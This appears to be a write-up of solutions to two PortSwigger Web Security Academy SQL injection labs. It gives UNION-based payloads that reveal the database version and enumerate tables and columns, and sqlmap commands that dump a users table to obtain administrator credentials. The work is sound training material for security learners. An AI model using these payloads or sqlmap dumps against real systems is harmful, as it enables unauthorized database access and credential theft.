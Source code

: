 ## SQL injection attack, querying the database type and version on MySQL and Microsoft
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft


### Quick Solution
This lab is similar to the ones before. The only difference is that it is mandatory to use Burp because seems impossible to inject the '#' character from the browser. The final payload is the following:
```
'+UNION+SELECT+@@version,+NULL#
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+'abc','def'#
```
3. Use the following payload to display the database version: 
```
'+UNION+SELECT+@@version,+NULL#
```

## SQL injection attack, listing the database contents on non-Oracle databases
Reference: https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle


### Quick Solution
In this case a full attack must be completed. For this reason I used a tool to automate it: ``sqlmap``. To retrieve the credentials of the ``administrator`` I used the the following commands (I used the Dockerized version of ``sqlmap``):
```
# Get Databases
docker run -it --rm secsi/sqlmap -u "<target_url>" --dbs
# List tables in database
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public --tables
# Dump content of a DB table
docker run -it --rm secsi/sqlmap -u "<target_url>" -D public -T <users_table_name> --dump
```


### Solution
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the ``category`` parameter: 
```
'+UNION+SELECT+'abc','def'--.
```
3. Use the following payload to retrieve the list of tables in the database:
```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: 
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
```